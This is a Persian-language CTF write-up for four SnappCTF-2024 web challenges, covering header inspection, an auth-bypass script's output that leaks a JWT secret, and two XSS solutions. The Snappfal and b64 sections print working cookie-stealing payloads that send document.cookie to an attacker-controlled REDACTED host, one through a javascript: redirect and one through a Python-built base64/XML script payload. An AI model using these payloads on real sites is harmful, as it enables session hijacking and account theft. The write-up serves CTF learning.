



---
tags:
  - Snapp CTF
  - SnappCTF-2024
  - Web
  - XSS
---


# چالش ها
- [Welcome](#welcome)
- [SnappCat](#snapp-cat)
- [Snappfal!](#snapp-fal)
- [b64](#b64)

---

# Welcome
برای حل این چالش به ما یه آدرس وب دادن
<center>


</center>

خب بعد از باز کردن آدرس تو وبسایت با این صفحه روبرو میشویم
<center>



</center>

برای حل این چالش ما باید دنبال بخش های مختلف فلگ بگردیم ، که بخش اولش تو صفحه اول نمایش داده شده ، برای بخش دوم کافیه که page source رو یه نگاهی بندازیم ، پس وارد آدرس زیر میشیم

`view-source:https://welcome.spchallenge.ir`

بعد از وارد شدن به این آدرس ، بخش دوم فلگ رو به صورت کامنت شده میبینین:

‍‍```<!-- 2nd part: `700_h4rd_1` -->```

در نهایت بخش سوم هم توی هدر های ریسپانس ریکویست GET هستش که اگه با مرورگر هستین تو بخش network میتونین اون رو پیدا کنین یا اگه با Burp هستین تو بخش Intercept میتونین اونو پیدا کنین (اگه با curl ریکویست رو بزنیم میتونیم از -v استفاده کنیم که verbose میکنه و هدر های ریسپانس رو میتونیم مشاهده کنیم):

```sh
$ curl https://welcome.spchallenge.ir/ -v
< HTTP/2 200 
< date: Sat, 24 Feb 2024 07:57:33 GMT
< content-type: text/html;charset=utf-8
< flag-3rd-part: 6_4b3784621} <<< HERE
< cf-cache-status: DYNAMIC
< report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=slO0vKYP8RNvjabK9LpwO%2F7ZTHZpdbktAHJRyNVGg2t5yrVDelM8b7EYMNYNoOYTxPiKkQ%2FVLTKn5I7mQXGYoPdgV%2F9XpLVo8Sx0Oa6pRP4PK%2Bh2IXnxAmXQ0Kja2lgyvO%2BE9ugAyfY5"}],"group":"cf-nel","max_age":604800}
< nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
< server: cloudflare
< cf-ray: 85a628897d7741ac-EWR
< alt-svc: h3=":443"; ma=86400
...
```

میبینین که بخش سوم هم با اسم `flag-3rd-part` توی هدر ها ارسال شده است

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{f1r57_0n3_w45n7_700_h4rd_16_4b3784621}`</div>

---

# Snapp Cat

<center>


</center>

برای حل این سوال من یک اسکریپت پایتون آماده کردم که میتونین از روی اون سوال رو حل کنین و بررسی کنین که چه اتفاقی میوفته

- [snappcat.py](../../../../uploads/snappcat.py)

بعد از دانلود فایل پایتون:

```sh
$ python3 snappcat.py
[+] registering with 2af8ba4edba03309: 
[+] response:  {'success': True}
[+] logging in with 2af8ba4edba03309
[+] resposne:  {'success': True}
[+] login with phone: +987714270933
[+] response: 200
[+] crack the code for sha256:04dc6d4a58836dce23191b5025d392f911a58c61452c580f79c9ec53f86b1ee6
[+] code cracked: 3189328
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] send verification email
[+] response: 200
[+] verify account
[+] response: 200
[+] login with phone: +133731333717
[+] response: 200
[+] crack the code for sha256:98fbf94b5485944c2325c846ec6234b6b7008c62dd2d17728b77ebef038ab5bd
[+] code cracked: 7494977
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] whoami?:  {'data': {'userId': 1}, 'success': True}
[+] create cat
[+] cat created with id: 62fd96ac-d0fe-4632-b7be-d2e873471acc
[+] display and get created cat
----------------------------------------------------------------------------------------------------
JWT SECRET: omidvaram-to-ke-ino-mibini-developer-website-bashi-fd29293cdeaf70dc67b420e73a37e172
----------------------------------------------------------------------------------------------------
[+] update jwt session
[+] reading flag xd
FLAG: SNAPP{7dc998269394314896af6378f15c2c12}
```


??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{7dc998269394314896af6378f15c2c12}`</div>

---

# Snapp fal!

<center>



</center>

همینطور که میبینین این یه چالش XSS هستش که باید سعی کنیم کوکی های ادمین رو بخونیم و برای خودمون بفرستیم

بعد از باز کردن آدرس وبسایت ما با این صفحه روبرو میشیم

<center>



</center>

اگه روی دکمه *نشون بده* کلیک کنین وارد یه صفحه میشین که آدرسش به این صورت هستش:

‍‍```https://snappfal.spchallenge.ir/fal?back=/&fal=some-random-text-here```

که توی اون صفحه بهتون یه متن فال رو نشون میده که (همون چیزی هستش که توی پارامتر fal قرار داره) و بعد از چند ثانیه به آدرسی که توی پارامتر back قرار داره ریدایرکت میشیم


برای این سوال به ما سورس چالش رو دادن که میتونین اون رو دانلود کنین و اگه به فایل src.js  دقت کنیم که چطوری فال هارو برای ما نشون میده و چطوری مارو ریدایرکت میکنه

```js
#!/usr/bin/env node
const express = require('express')
const fs = require('fs')

const app = express()
const indexPage = fs.readFileSync('./pages/index.html').toString()
const falPage = fs.readFileSync('./pages/fal.html').toString()
const randomFals = [
	'%D8%AC%D9%84%D8%B3%D9%87%20%D8%A8%D8%B9%D8%AF%DB%8C%20%DA%A9%D9%84%D8%A7%D8%B3%D8%AA%20%DA%A9%D9%86%D8%B3%D9%84%20%D9%85%DB%8C%D8%B4%D9%87',
	'%D9%81%D8%B1%D8%AF%D8%A7%20%D8%AA%D9%88%20%DB%8C%DA%A9%20%D8%AA%D8%B1%D8%A7%D9%81%DB%8C%DA%A9%20%D8%B3%D9%86%DA%AF%DB%8C%D9%86%20%DA%AF%DB%8C%D8%B1%20%D9%85%DB%8C%DA%A9%D9%86%DB%8C',
	'%D8%AD%D9%82%D9%88%D9%82%D8%AA%20%D8%B3%D8%A7%D9%84%20%D8%AF%DB%8C%DA%AF%D9%87%20%D8%B3%D9%87%20%D8%A8%D8%B1%D8%A7%D8%A8%D8%B1%20%D9%85%DB%8C%D8%B4%D9%87'
]

app.get('/',(req,res)=>{
	res.send(indexPage)
})

app.get('/random-fal',(req,res)=>{
	res.redirect('/fal?back=/&fal='+randomFals[Math.floor(Math.random()*randomFals.length)],)
})

app.get('/fal',(req,res)=>{
	let to = (req.query.back ?? '/').toString()
	let fal = (req.query.fal || '').toString()

	to = to.replaceAll('"','\\x22').replaceAll('<','\\x3c')
	fal = fal.replaceAll('"','&quot;').replaceAll('<','&lt;')

	res.send(fs.readFileSync('./pages/fal.html').toString().replace('$fal$',fal).replace('$URL$',to))
})

app.listen(8000, () => {
	console.log('Server listening on port 3000')
})
```

توی مسیر /random-fal یک فال رندوم از آرایه randomFals میگیره و به مسیر /fal ریدایرکت میشیم

و توی مسیر /fal یه back, fal داریم که back آدرسی هستش که به اون ریدایرکت میشیم و fal هم متنی هستش که تو صفحه بهمون نشون میده ولی اگه دقت کنین مقدار fal escape میشه و نمیتونیم برای اون xss بزنیم

خب بیاین یه نگاهی به سورس صفحه ای بندازیم که توش فال ها به ما نشون داده میشه:

```sh
$  curl https://snappfal.spchallenge.ir/fal?back=ADDR_GOES_HERE&fal=FAL_GOES_HERE 
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Snapp fal!</title>
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Vazirmatn:wght@400&display=swap" rel="stylesheet">
<style>
    body {
        background-color: white;
    }

    .cont {
        display: flex;
        justify-content: center;
        align-items: center;
        height: 100vh; 
    }

    .card {
        background-color: #f7f6f2;
        padding: 60px 40px;
        border-radius: 10px;
        text-align: center;
    }

    button:hover {
        background-color: #40a38b;
    }

    span {
        color: #81766d;
        font-family: 'vazirmatn', sans-serif; 
        font-size: 32px;
        font-weight: bold;
        display: block;
    }
</style>
</head>
<body>
    <div class="cont">
        <div class="card">
            <span></span>
        </div>
    </div>
    <script>
        setTimeout(_=>{
            document.location = "ADDR_GOES_HERE"  
        },2000)
    </script>
</body>
</html>
```

خب مثله اینکه ادرسی که ما بهش میدیم میره مستقیم میشینه توی document.location ، پس اگه این رو به عنوان آدرس بدیم میتونیم XSS بگیریم

```
/fal?javascript:fetch(`https://REDACTED?flag${document.cookie}`)
```

به جای REDACTED آدرسی سرور خودتون رو بزارین تا فلگ براتون ارسال بشه یا اینکه از webhook.site استفاده کنین

حالا کافیه که آدرس رو بدیم به ادرس بات که برامون فلگ رو بفرسته xd

```
final addr: https://snappfal.spchallenge.ir/fal?back=javascript:fetch(`https://REDACTED?flag${document.cookie}`)
```

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{89d36f80b85bde916fbdeb8592c1b368}`</div>

---

# b64

<center>


</center>

برای حل این سوال میتونین از کد زیر استفاده کنین

```python
import requests
import base64
import sys
import html

url = 'https://b64.spchallenge.ir/'

xss_pay = """window.location='https://REDACTED?flag=' + document.cookie"""
pa = "?buf=%s&ct=%s" % (base64.b64encode(xss_pay.encode()).decode(), "application/ecmascript")
p = """<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="%s"></_:script>""" % html.escape(pa)


buffer, ct = base64.b64encode(p.encode()).decode(), "text/xml"
d = requests.get(url, params={'buf':buffer, 'ct': ct})
print(d.url)
```

به جای REDACTED از آدرس سرور خودتون استفاده کنین و بعد از اجرای کد بالا بهتون یه آدرس میده که اون رو میتونین بدین به بات تا فلگ رو براتون بفرسته

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{9a952b93a0f0ad23304547c4de2025fb}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۵